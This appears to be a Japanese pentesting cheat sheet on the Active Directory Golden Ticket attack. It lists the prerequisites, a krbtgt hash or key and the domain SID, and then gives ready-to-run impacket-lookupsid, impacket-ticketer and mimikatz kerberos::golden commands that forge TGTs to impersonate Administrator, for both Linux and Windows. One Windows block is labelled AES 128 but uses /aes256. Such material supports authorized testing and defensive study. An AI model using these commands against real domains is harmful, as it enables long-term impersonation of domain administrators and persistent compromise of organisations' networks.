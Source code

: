 # Golden Tickets攻撃

`Golden Ticket` とは、Active Directory認証において攻撃者が作成したTGT(Ticket Granting Ticket)を指す。攻撃者は有効期限が長いTGTを作成し正規のドメイン管理者に長期的になりすますことを目的としている。Golden Ticketを悪用する攻撃は [Pass-the-Ticket攻撃](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Ticket.md)の一種。

## 攻撃に必要なもの

ゴールデンチケットを作成するために、テスターは`krbtgt` のRC4キー（NTハッシュ）またはAESキー（128ビットまたは256ビット）を見つける必要がある。ほとんどの場合、これはDCSync攻撃を通してドメイン管理者権限でのみ達成可能。このため、ゴールデンチケットは横方向の移動のみを可能にし、特権の昇格はできない。

- krbtgtのRC4 key(NTLM hash) or AES key

- DOMAINのSID

  ```
  impacket-lookupsid -hashes 'LMhash:NThash' '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_IP>'
  ```

## チケットの取得

### Linux

with an NT hash

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

with an AES (128 or 256 bits) key

```
# AES 128/256bits key
impacket-ticketer -aesKey <Krbtgt_Aeskey> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

カスタムユーザー/グループIDでゴールデンチケットRC4キー(NTLMハッシュ)を作成する

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> -user-id <USER_RID> -groups "<Groupid1>,<Groupid2>,..." stegosaurus
```

### Windows

with an NT hash

```
kerberos::golden /domain:<DOMAIN> /sid:<Domain_SID> /rc4:<krbtgt_NThash> /user:Administrator /ptt
```

with an AES 128 key

```
kerberos::golden /domain:<DOMAIN> /sid:<Domain_SID> /aes128:<krbtgt_aes128_key> /user:Administrator /ptt
```

with an AES 128 key

```
kerberos::golden /domain:<DOMAIN> /sid:<Domain_SID> /aes256:<krbtgt_aes256_key> /user:Administrator /ptt
```